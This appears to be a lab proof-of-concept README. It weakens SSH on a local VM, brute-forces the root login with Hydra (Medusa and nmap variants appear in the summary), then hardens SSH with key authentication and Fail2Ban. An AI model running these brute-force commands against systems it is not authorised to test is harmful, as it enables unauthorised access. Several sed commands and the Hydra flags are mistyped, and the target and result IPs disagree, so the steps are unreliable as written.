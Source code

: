 # POC-TASK--2
✅ SETUP:

step 1: Enable ssh 
        
  # Update package list and install OpenSSH server
        ┌──(monish㉿vbox)-[~]
        └─$ sudo apt update && sudo apt install openssh-server -y

  # Enable ssh to start on boot
        ┌──(monish㉿vbox)-[~]
        └─$ sudo systemctl enable ssh

  # Verify ssh is running
        ┌──(monish㉿vbox)-[~]
        └─$ sudo systemctl status ssh

step 2: Allow Root login & Password Authentication
  
  # Allow root login
        ┌──(monish㉿vbox)-[~]
        └─$ sudo sed -i 's/#permitRootLogin prohibit-password/permitRootLogin yes/' /etc/ssh/sshd_config

  # Enable password-based authentication
        ┌──(monish㉿vbox)-[~]
        └─$ sudo sed -i 's/passwordaAuthentication no/passwordAuthentication yes/' /etc/ssh/sshd_config

  # Verify ssh is listening on port 
        ┌──(monish㉿vbox)-[~]
        └─$ ss -tlnp | grep ssh
        
✅ EXPLOIT: BRUTE-FORCE ATTACK:

step 3: perform a brute-force attack on ssh

  # Run Hydra brute-force attack on ssh
        ┌──(monish㉿vbox)-[~]
        └─$ hydra -l root -p passwords.txt ssh://10.0.2.15 -t 4

  Hydra (https://github.com/van-thc/thc-hydra) starting at 2025-03-17 20:40:6
  [DATA] max 4 tasks per 1 server, overall 4 tasks, 5 login tries (l:1/p:5), ~2 tries per task
  [DATA] attacking ssh://10.0.2.15/
  [22][ssh] host: 178.0.0.9   login: root   password: @@@@
  1 of 1 target successfully completed, 1 valid password found
  Hydra (https://github.com/van-thc/thc-hydra) finished at 2025-03-17 20:40:9

✅ MITIGATION:

 step 4: ssh hardening & mitigation

   # Disable root login for ssh
        ┌──(monish㉿vbox)-[~]
        └─$ sudo sed -i 's/PermitRootLogin yes/PermitRootLogin no/' /etc/ssh/sshd_config

   # Enable key-based authentication
        ┌──(monish㉿vbox)-[~]
        └─$ mkdir -p ~/.ssh && chmod 700 ~/.ssh

   # Generate ssh key pair
        ┌──(monish㉿vbox)-[~]
        └─$ ssh-keygen -t rsa -b 4096

   Generating public/private rsa key pair.
   Enter file in which to save the key (/home/monish/.ssh/id_rsa): 
   Enter passphrase for "/home/monish/.ssh/id_rsa" (empty for no passphrase): 
   Enter same passphrase again: 
   Your identification has been saved in /home/monish/.ssh/id_rs
   Your public key has been saved in /home/monish/.ssh/id_rsa.pub
   The key fingerprint is:
   SHA256:*********************************** 
   The key's randomart image is:
   
   +---[RSA 4096]----+
   
   |  .=o+*+=B*= .   |
   
   |  ..O=.+*B=.o    |
   
   |   =.oo .E=  .   |
   
   |    .  ..o. . .  |
   
   |        S  . + . |
   
   |            = ...|
   
   |           o oo o|
   
   |            . .+ |
   
   |             ..  |
   
   +----[SHA256]-----+

   # Disable password authentication 
        ┌──(monish㉿vbox)-[~]
        └─$ sudo sed -i 's/PasswordAuthentication yes/PasswordAuthentication no/' /etc/ssh/sshd_config

   # Reset ssh to apply changes
        ┌──(monish㉿vbox)-[~]
        └─$  sudo systemctl restart ssh

step 5: Prevent Brute-force Attacks with Fail2Ban

   # Install Fail2Ban
        ┌──(monish㉿vbox)-[~]
        └─$ sudo apt install -y fail2ban

   # Enable and start Fail2Ban
        ┌──(monish㉿vbox)-[~]
        └─$ sudo systemctl enable fail2ban
        sudo systemctl start fail2ban

   # Configure Fail2Ban for ssh protection
        ┌──(monish㉿vbox)-[~]
        └─$ sudo nano /etc/fail2ban/jail.local

   # Restart Fail2Ban to apply settings
        ┌──(monish㉿vbox)-[~]
        └─$ sudo systemctl restart fail2ban
   
   # Check Fail2Ban status for SSH
         ┌──(monish㉿vbox)-[~]
         └─$ sudo fail2ban-client status sshd

   # Login in Root
          ┌──(monish㉿vbox)-[~]
          └─$ ssh root@178.0.0.9

📌  SUMMARY:

This Proof of Concept (PoC) demonstrates how weak SSH configurations can be exploited using brute-force attacks and how to secure SSH through best practices.

🔹 Setup:

Enable SSH (sudo apt install -y openssh-server).

Allow root login (PermitRootLogin yes) and password authentication (PasswordAuthentication yes).

🔹 Exploitation:

Identify open SSH ports (nmap -p 22 <target-ip>).

Launch a brute-force attack using Hydra (hydra -l root -P rockyou.txt <target-ip> ssh).

Attempt brute-force access with Medusa (medusa -h <target-ip> -u root -P rockyou.txt -M ssh).

🔹 Mitigation:

Disable root login and password authentication (PermitRootLogin no, PasswordAuthentication no).

Enable key-based authentication (ssh-keygen, ssh-copy-id user@remote-server).

Install and configure Fail2Ban to prevent brute-force attacks (sudo apt install -y fail2ban).

